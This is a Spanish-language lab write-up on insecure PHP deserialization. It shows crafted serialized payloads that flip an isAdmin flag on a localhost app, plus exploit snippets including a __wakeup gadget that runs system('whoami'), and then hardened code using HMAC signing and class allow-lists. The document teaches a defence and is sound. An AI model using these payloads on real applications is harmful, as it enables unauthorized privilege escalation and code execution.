



# Unsafe Deserialization

La deserialización insegura ocurre cuando una aplicación carga objetos serializados sin validación, lo que permite que
un atacante modifique los datos y ejecute código arbitrario.

Impacto de la Deserialización Insegura:
- Escalada de privilegios (ejemplo: convertir un usuario normal en administrador).
- Ejecución de código remoto (RCE) si la aplicación permite __wakeup() o __destruct().
- Modificación de datos internos en la aplicación.

##  VULNERABILIDAD IDENTIFICADA

### Tipo: Insecure Deserialization (Deserialización Insegura)

**CWE-502:** Deserialization of Untrusted Data

**Línea vulnerable:**
```php
$data = unserialize($_GET['data']);
```

**Problemas:**
1.  Deserializa datos directamente desde parámetros GET sin validación
2.  No verifica la integridad de los datos serializados
3.  No valida el tipo de objeto que se está deserializando
4.  Permite modificar propiedades críticas (`isAdmin`)
5.  No hay firma digital ni HMAC para verificar autenticidad

**CVSS Score:** 9.8 (Crítico)

---

##  EXPLOTACIÓN DE LA VULNERABILIDAD

### Paso 1: Generar el Payload Malicioso

**Acción:**
1. Acceder a: `http://localhost/serialize_attack.php`

**Resultado:**
```
O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D
```



**Payload decodificado:**
```
O:4:"User":2:{s:8:"username";s:6:"hacker";s:7:"isAdmin";b:1;}
```

**Interpretación:**
```php
User Object
(
    [username] => "hacker"
    [isAdmin] => true  // ← Valor malicioso inyectado
)
```

---

### Paso 2: Usuario Legítimo (Sin Ataque)

**Crear archivo:** `normal_user.php`
```php
<?php
class User {
    public $username = "usuario_normal";
    public $isAdmin = false;
}
echo urlencode(serialize(new User()));
?>
```

**Generar payload legítimo:**
```
http://localhost/normal_user.php
```

**Resultado:**
```
O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A14%3A%22usuario_normal%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A0%3B%7D
```

**Probar acceso:**
```
http://localhost/deserialize.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A14%3A%22usuario_normal%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A0%3B%7D
```

**Resultado esperado:** 
- La página NO muestra nada (sin acceso de administrador)



---

### Paso 3: Ataque de Escalada de Privilegios

**URL maliciosa:**
```
http://localhost/deserialize.php?data=O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D
```

**Resultado:**
```
¡Acceso de administrador concedido!
```

 **Ataque exitoso:** El atacante obtuvo privilegios de administrador sin autenticación.


---

##  COMPARACIÓN: Usuario Normal vs Atacante

| Aspecto | Usuario Normal | Atacante |
|---------|----------------|----------|
| **Username** | "usuario_normal" | "hacker" |
| **isAdmin** | `false` | `true` ← Modificado |
| **Acceso Admin** |  Denegado |  Concedido |
| **Autenticación** | No importa | No importa |

---

##  PAYLOADS ADICIONALES

### Exploit 1: Múltiples Propiedades Maliciosas

**Archivo:** `advanced_attack.php`
```php
<?php
class User {
    public $username = "superadmin";
    public $isAdmin = true;
    public $role = "root";
    public $permissions = array("read", "write", "delete", "execute");
}
echo urlencode(serialize(new User()));
?>
```

**Resultado:** Escalada de privilegios con permisos completos

---

### Exploit 2: Inyección de Código (Si hubiera __wakeup)
```php
<?php
class User {
    public $username = "attacker";
    public $isAdmin = true;
    public $command = "system('whoami');";
    
    public function __wakeup() {
        eval($this->command);
    }
}
echo urlencode(serialize(new User()));
?>
```

**Peligro:** Si la clase tuviera métodos mágicos (`__wakeup`, `__destruct`), podría ejecutar código arbitrario.

---

### Exploit 3: Object Injection en Cadena
```php
<?php
class User {
    public $username = "hacker";
    public $isAdmin = true;
}

class Admin {
    public $user;
    public function __construct() {
        $this->user = new User();
    }
}

echo urlencode(serialize(new Admin()));
?>
```

**Resultado:** Inyección de objetos anidados

---

##  ANÁLISIS DEL PAYLOAD

### Estructura de la Serialización PHP
```
O:4:"User":2:{s:8:"username";s:6:"hacker";s:7:"isAdmin";b:1;}
```

**Desglose:**

| Parte | Significado |
|-------|-------------|
| `O:4:"User"` | Objeto de la clase "User" (4 caracteres) |
| `:2:` | Tiene 2 propiedades |
| `{...}` | Contenido de las propiedades |
| `s:8:"username"` | String de 8 caracteres llamado "username" |
| `s:6:"hacker"` | Su valor es "hacker" (6 caracteres) |
| `s:7:"isAdmin"` | String de 7 caracteres llamado "isAdmin" |
| `b:1` | Boolean con valor `true` (1) |

---

##  CÓDIGO SEGURO (SOLUCIÓN COMPLETA)

### deserialize_secure.php
```php
<?php
// ========================================
// SISTEMA SEGURO CONTRA DESERIALIZACIÓN
// ========================================

session_start();

// 1. DEFINIR CLAVE SECRETA (en producción usar variable de entorno)
define('SECRET_KEY', 'tu_clave_secreta_muy_larga_y_aleatoria_12345');

// Clase User con validaciones
class User {
    private $username;
    private $isAdmin = false;
    
    // Getters con validación
    public function getUsername() {
        return htmlspecialchars($this->username, ENT_QUOTES, 'UTF-8');
    }
    
    public function isAdmin() {
        return $this->isAdmin === true;
    }
    
    // Setters con validación
    public function setUsername($username) {
        if (strlen($username) > 50) {
            throw new Exception("Username demasiado largo");
        }
        $this->username = $username;
    }
    
    // isAdmin NO tiene setter público (solo se asigna internamente)
    private function setAdmin($value) {
        $this->isAdmin = (bool)$value;
    }
}

// ====================================================
//  FUNCIONES SEGURAS DE SERIALIZACIÓN
// ====================================================

/**
 * Serializa y firma el objeto con HMAC
 */
function secure_serialize($obj) {
    $serialized = serialize($obj);
    $hmac = hash_hmac('sha256', $serialized, SECRET_KEY);
    return base64_encode($hmac . '|' . $serialized);
}

/**
 * Deserializa solo si la firma HMAC es válida
 */
function secure_unserialize($data) {
    try {
        // Decodificar
        $decoded = base64_decode($data, true);
        if ($decoded === false) {
            throw new Exception("Datos inválidos");
        }
        
        // Separar HMAC y datos
        $parts = explode('|', $decoded, 2);
        if (count($parts) !== 2) {
            throw new Exception("Formato inválido");
        }
        
        list($hmac_received, $serialized) = $parts;
        
        // Verificar HMAC
        $hmac_calculated = hash_hmac('sha256', $serialized, SECRET_KEY);
        if (!hash_equals($hmac_calculated, $hmac_received)) {
            throw new Exception("Firma HMAC inválida - Posible manipulación");
        }
        
        // Lista blanca de clases permitidas
        $allowed_classes = ['User'];
        
        // Deserializar solo clases permitidas
        $obj = unserialize($serialized, ['allowed_classes' => $allowed_classes]);
        
        // Validar tipo de objeto
        if (!($obj instanceof User)) {
            throw new Exception("Tipo de objeto no permitido");
        }
        
        return $obj;
        
    } catch (Exception $e) {
        error_log("Deserialization error: " . $e->getMessage() . " from IP: " . $_SERVER['REMOTE_ADDR']);
        return null;
    }
}

// ====================================================
//  ALTERNATIVA: USAR JSON EN LUGAR DE SERIALIZE
// ====================================================

/**
 * Serialización segura usando JSON
 */
function json_serialize_user($username, $isAdmin = false) {
    $data = [
        'username' => $username,
        'isAdmin' => $isAdmin,
        'timestamp' => time()
    ];
    
    $json = json_encode($data);
    $hmac = hash_hmac('sha256', $json, SECRET_KEY);
    
    return base64_encode($hmac . '|' . $json);
}

/**
 * Deserialización segura desde JSON
 */
function json_unserialize_user($data) {
    try {
        $decoded = base64_decode($data, true);
        if ($decoded === false) {
            throw new Exception("Datos inválidos");
        }
        
        $parts = explode('|', $decoded, 2);
        if (count($parts) !== 2) {
            throw new Exception("Formato inválido");
        }
        
        list($hmac_received, $json) = $parts;
        
        // Verificar HMAC
        $hmac_calculated = hash_hmac('sha256', $json, SECRET_KEY);
        if (!hash_equals($hmac_calculated, $hmac_received)) {
            throw new Exception("Firma HMAC inválida");
        }
        
        // Decodificar JSON
        $data = json_decode($json, true);
        if ($data === null) {
            throw new Exception("JSON inválido");
        }
        
        // Verificar timestamp (token no más viejo de 1 hora)
        if (!isset($data['timestamp']) || (time() - $data['timestamp']) > 3600) {
            throw new Exception("Token expirado");
        }
        
        // Crear objeto User
        $user = new User();
        $user->setUsername($data['username']);
        // isAdmin se gestiona desde sesión autenticada, no desde token
        
        return $user;
        
    } catch (Exception $e) {
        error_log("JSON deserialization error: " . $e->getMessage());
        return null;
    }
}

// ====================================================
//  PROCESAMIENTO SEGURO
// ====================================================

$message = "";
$error = "";

if (isset($_GET['data'])) {
    
    // OPCIÓN 1: Deserialización segura con HMAC
    $user = secure_unserialize($_GET['data']);
    
    // OPCIÓN 2: Deserialización JSON (recomendado)
    // $user = json_unserialize_user($_GET['data']);
    
    if ($user === null) {
        $error = " Token inválido o manipulado. Intento registrado.";
    } else {
        // Verificar privilegios desde SESIÓN, no desde objeto deserializado
        if (isset($_SESSION['is_admin']) && $_SESSION['is_admin'] === true) {
            $message = " ¡Acceso de administrador concedido para: " . $user->getUsername() . "!";
        } else {
            $message = " Bienvenido, " . $user->getUsername() . " (usuario normal)";
        }
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Sistema Seguro</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            max-width: 600px;
            margin: 50px auto;
            padding: 20px;
            background-color: #f5f5f5;
        }
        .container {
            background: white;
            padding: 30px;
            border-radius: 8px;
            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
        }
        .success {
            background-color: #d4edda;
            color: #155724;
            padding: 15px;
            border-radius: 4px;
            margin-bottom: 20px;
            border-left: 4px solid #28a745;
        }
        .error {
            background-color: #f8d7da;
            color: #721c24;
            padding: 15px;
            border-radius: 4px;
            margin-bottom: 20px;
            border-left: 4px solid #dc3545;
        }
        .info {
            background-color: #d1ecf1;
            color: #0c5460;
            padding: 15px;
            border-radius: 4px;
            margin-top: 20px;
            font-size: 14px;
        }
        code {
            background: #f4f4f4;
            padding: 2px 6px;
            border-radius: 3px;
            font-family: 'Courier New', monospace;
        }
    </style>
</head>
<body>
    <div class="container">
        <h2> Sistema Seguro de Deserialización</h2>
        
        <?php if (!empty($message)): ?>
            <div class="success">
                <?php echo $message; ?>
            </div>
        <?php endif; ?>
        
        <?php if (!empty($error)): ?>
            <div class="error">
                <?php echo $error; ?>
            </div>
        <?php endif; ?>
        
        <div class="info">
            <h3> Protecciones Implementadas:</h3>
            <ul>
                <li> Firma HMAC-SHA256 para verificar integridad</li>
                <li> Lista blanca de clases permitidas</li>
                <li> Validación de tipo de objeto</li>
                <li> Propiedades privadas con getters/setters</li>
                <li> Timestamp de expiración (1 hora)</li>
                <li> Logging de intentos sospechosos</li>
                <li> Privilegios gestionados desde sesión</li>
                <li> Alternativa JSON recomendada</li>
            </ul>
            
            <h3> Ejemplo de token válido:</h3>
            <p>Para generar un token válido, usa <code>secure_serialize()</code> o <code>json_serialize_user()</code></p>
        </div>
    </div>
</body>
</html>
```

---

### generate_secure_token.php (Generador de Tokens Seguros)
```php
<?php
// ========================================
// GENERADOR DE TOKENS SEGUROS
// ========================================

require_once 'deserialize_secure.php';

// Crear usuario legítimo
$user = new User();
$user->setUsername("usuario_legitimo");

// Generar token seguro con HMAC
$secure_token = secure_serialize($user);

echo "<h2>Token Seguro Generado:</h2>";
echo "<p style='word-wrap: break-word;'><code>" . htmlspecialchars($secure_token) . "</code></p>";

echo "<h3>Probar:</h3>";
echo "<a href='deserialize_secure.php?data=" . urlencode($secure_token) . "'>Click aquí para probar el token</a>";

echo "<hr>";

// Generar token JSON (alternativa)
$json_token = json_serialize_user("usuario_json", false);

echo "<h2>Token JSON Seguro:</h2>";
echo "<p style='word-wrap: break-word;'><code>" . htmlspecialchars($json_token) . "</code></p>";

echo "<h3>Probar JSON:</h3>";
echo "<a href='deserialize_secure.php?data=" . urlencode($json_token) . "'>Click aquí para probar JSON</a>";

echo "<hr>";

// Intentar modificar el token (demostración de protección)
echo "<h2> Intento de Manipulación (Fallará):</h2>";
$manipulated = str_replace('usuario', 'hacker', $secure_token);
echo "<a href='deserialize_secure.php?data=" . urlencode($manipulated) . "'>Click aquí (será rechazado)</a>";
?>
```

---

### MITIGACIÓN:
 **Firma HMAC** para verificar integridad  
 **Lista blanca de clases** permitidas  
 **Validación de tipo** de objeto  
 **Propiedades privadas** con control de acceso  
 **JSON en lugar de serialize()** (recomendado)  
 **Privilegios desde sesión**, no desde objeto  
 **Tokens con expiración**  
 **Logging de intentos** maliciosos  

---